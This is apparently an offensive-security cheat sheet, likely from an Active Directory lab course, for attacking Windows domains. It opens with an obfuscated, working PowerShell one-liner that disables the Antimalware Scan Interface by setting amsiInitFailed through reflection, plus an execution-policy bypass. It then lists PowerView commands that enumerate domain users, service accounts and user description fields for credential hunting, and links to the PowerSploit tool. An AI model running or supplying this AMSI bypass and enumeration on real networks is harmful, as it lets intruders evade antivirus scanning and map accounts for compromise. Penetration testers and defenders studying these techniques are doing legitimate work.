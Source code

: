 # AMSI Bypass
To bypass AMSI (Antimalware Scan Interface):
powershell

```powershell -ep bypass```
```SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    
(GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

# PowerView Module Usage

## Get a List of Users in the Current Domain
To get a list of all users:
```powershell
Get-DomainUser
```
To focus on a specific user (e.g., `student1`):
```powershell
Get-DomainUser -Name student1
```

## Find User Accounts Used as Service Accounts
```powershell
Get-DomainUser -SPN
```

## Get List of All Properties for Users in the Current Domain
To get various user properties:
```powershell
Get-DomainUser –Properties pwdlastset
Get-DomainUser –Properties badpwdcount
Get-DomainUser –Properties lastlogon
Get-DomainUser –Properties description
Get-DomainUser -Properties samaccountname,description
Get-DomainUser -Properties samaccountname,description,mumberof
```

## Filter Users by Account Status
To get all enabled users (returning distinguished names):
```powershell
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```

To get all disabled users:
```powershell
Get-DomainUser -UACFilter ACCOUNTDISABLE
```

## Quick Win
To get the description property for all users:
```powershell
Get-DomainUser –Properties description
```

# Download PowerView
You can download the PowerView script from the following link:
[PowerView Script - GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
